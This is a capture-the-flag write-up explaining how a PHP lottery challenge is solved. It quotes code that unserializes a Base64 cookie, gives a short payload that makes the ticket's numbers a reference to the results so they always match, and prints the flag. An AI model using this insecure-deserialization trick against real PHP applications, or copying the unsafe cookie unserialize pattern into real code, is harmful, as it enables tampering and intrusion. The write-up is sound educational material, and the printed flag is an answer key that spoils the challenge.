



## 45c6  



The challenge webpage implements a lottery system where if we win, we get the flag.  



Our lottery ticket stored as a cookie, which turns out to be a Base64-encoded serialized `Ticket` object.  

```php
if (isset($_COOKIE['ticket'])) {
    $ticket_exist = true;
} else {
    $ticket = new Ticket();
    $ticket->issue();
    setcookie('ticket', base64_encode(serialize($ticket)));
}
```

The `Ticket` class has attributes `results` and `numbers` that will contain the system's and user's randomly generated numbers respectively.  

```php
function draw($n, $k) {
    $ret = range(1, $n);
    for ($i = 0; $i < $n - 1; $i++) {
        $p = rand($i, $n - 1);
        [$ret[$i], $ret[$p]] = [$ret[$p], $ret[$i]];
    }
    $ret = array_slice($ret, 0, $k);
    sort($ret);
    return $ret;
}

class Ticket {
    public $results;
    public $numbers;

    function issue() {
        $this->numbers = draw(45, 6);
    }
}
```

In the ticket validation function, `$ticket->results` is randomly generated every time we check if we win.  

We can immediately notice an `unserialize()` vuln when the system retrieves the drawn numbers from the ticket, and we can potentially exploit this to get `$ticket->numbers` to be equal to `$ticket->results`.  


```php
function validate($cookie_ticket) {
    if ($cookie_ticket == NULL) {
        echo "Get a ticket first!<br>";
        return;
    }

    if (!($d = base64_decode($cookie_ticket))) {
        echo "Not a valid ticket!<br>";
        return;
    }

    if (!($ticket = unserialize($d))) {
        echo "Not a valid ticket!<br>";
        return;
    }

    if (!($ticket instanceof Ticket)) {
        echo "Not a valid ticket!<br>";
        return;
    }

    if (!is_array($ticket->numbers)) {
        echo "No cheating!<br>";
        return;
    }


    $results = draw(45, 6);

    for ($i = 0; $i < 6; $i++) {
        $ticket->results[$i] = $results[$i];
    }

    $win = true;

    for ($i = 0; $i < 6; $i++) {
        if ($ticket->results[$i] !== $ticket->numbers[$i]) {
            $win = false;
        }
    }

    echo "Lucky numbers: " . implode(', ', $ticket->results) . "<br>";
    echo "Your numbers: " . implode(', ', $ticket->numbers) . "<br>";

    if ($win) {
        echo "You win! get the flag: ";
        $fp = fopen("/flag.txt", "r");
        echo fgets($fp) . "<br>";
        fclose($fp);
    } else {
        echo "Too bad.. maybe next time<br>";
    } 
}
```

We can first create our own `Ticket` object, then declare the `$ticket->numbers` and `$ticket->results` attributes as arrays, before setting `$ticket->numbers` to be a reference that points to `$ticket->results`. We can then `serialize()` and Base64-encode the object to get our payload cookie.  

The way this works is that now, any changes made to `$ticket->results` will be reflected to `$ticket->numbers`, ensuring that our drawn numbers will always be the same as the winning numbers.  

An important thing to note is that setting the attributes to arrays is crucial to the exploit as it allows us to bypass the `is_array()` check from earlier. `$tickets->results` is `NULL` by default so `$ticket->numbers` will not have the `Array` type by default.  

```php
$ticket = new Ticket();
$ticket->numbers = $ticket->results = [];
$ticket->numbers = &$ticket->results;

echo base64_encode(serialize($ticket));
```

Setting the `ticket` cookie in the webpage and visiting `/result.php` will then give us the flag.  



Flag: `DH{91dff778784975c68312aef0ffcb1c44782da5664d9ea8369d3b70b87fb97214}`